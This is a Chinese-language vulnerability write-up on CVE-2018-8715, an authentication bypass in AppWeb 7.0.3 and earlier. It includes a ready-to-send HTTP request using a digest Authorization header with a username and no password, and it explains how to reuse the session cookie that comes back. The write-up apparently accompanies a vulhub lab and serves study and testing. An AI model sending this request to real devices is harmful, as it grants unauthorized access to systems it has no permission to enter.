 # CVE-2018-8715 AppWeb认证绕过漏洞

## 一、漏洞简介

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

* basic 传统HTTP基础认证
* digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头form 表单认证
* 其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为null（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

## 二、漏洞影响

AppWeb <=7.0.3

## 三、复现过程

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为admin。

构造头Authorization: Digest username=admin，并发送如下数据包：


```bash
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![](images/15889435883986.png)


设置这个session到浏览器，即可正常访问需要认证的页面：

![](images/15889435995199.png)


参考链接

https://vulhub.org/#/environments/appweb/CVE-2018-8715/